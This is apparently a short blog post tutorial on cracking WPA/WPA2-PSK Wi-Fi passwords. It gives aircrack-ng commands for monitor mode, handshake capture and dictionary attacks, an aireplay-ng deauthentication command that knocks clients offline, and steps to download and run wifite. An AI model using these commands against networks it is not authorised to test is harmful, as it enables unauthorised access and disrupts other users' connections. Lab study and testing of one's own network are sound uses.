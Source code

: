 ```yaml
---
layout: post
title: Check your wireless password, or someone could intrude ?
---
```


# Introduction

Wireless is open to attack. Network can be interuppted at any time.

# Hardware

~~~
lspci -m
~~~

Best is supported some of [this](http://www.wirelesshack.org/top-kali-linux-compatible-usb-adapters-dongles-2015.html)

* AR9271
* RT3070
* RT3572
* RTL8187L

You can check also [aircrack
compatibility drivers](http://www.aircrack-ng.org/doku.php?id=compatibility_drivers)

# Installation

~~~
sudo su
apt-get install aircrack-ng reaver
man airodump-ng
ifconfig # find wireless adapters, for example wlan0

airmon-ng check
airmon-ng check kill
airmon-ng
airmon-ng start wlan0 # this will create another adapter mon0
~~~

`airmon-ng start` will show a message that other programs could interfere. You
can `sudo pkill NetworkManager` but it will just restart it. So far so good, all
those programs could stay running (but you should disconnect from all networks).

# Theory

[WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa&DokuWiki=3mlmhn080hqo8eb6p0qsqpvas4)
supports many types of authentication, and only PSK (pre-shared key) AUTH is
crackable. There is no difference between cracking WPA and WPA2.
There is no benefit from collectin IVs. Only we can do is to get handshake when
client connects to the network. Than we can test our dictionary with 300 keys
per second.

~~~
# list all networks (BSSID), channel (CH) and clients
airodump-ng mon0 -w output
airodump-ng mon0 --bssid 12:12:12:12:12:12 -w output
# better is to use channel option -c since more packets are stored
airodump-ng mon0 -c 1 -w output
~~~

Instead of waiting you can deauthenticate some clients:

~~~
aireplay-ng -0 1 -a 12:12:12:12:12:12 -c 11:11:11:11:11:11 --ignore-negative-on mon0
# it should returns some number of ACK [ 5|55 ACKs]
~~~

Note that you can capture all networks (any handshare will be stored) but more
packets will be stored if you listen on specific frequency.
On top of the page it should say: `WPA handshake: 12:12:12:12:12:12` but it
could be replaces with some info. You can check anytime if some od handshake are
stored

~~~
aircrack-ng output*.cap
~~~

Use two different cards, when you run `iwconfig` then one should show `IEEE
802.11bg` and another `IEEE 802.11bgn`.

# Wifite

<https://github.com/derv82/wifite>

~~~
wget https://raw.github.com/derv82/wifite/master/wifite.py
chmod +x wifite.py
sudo ./wifite.py
~~~

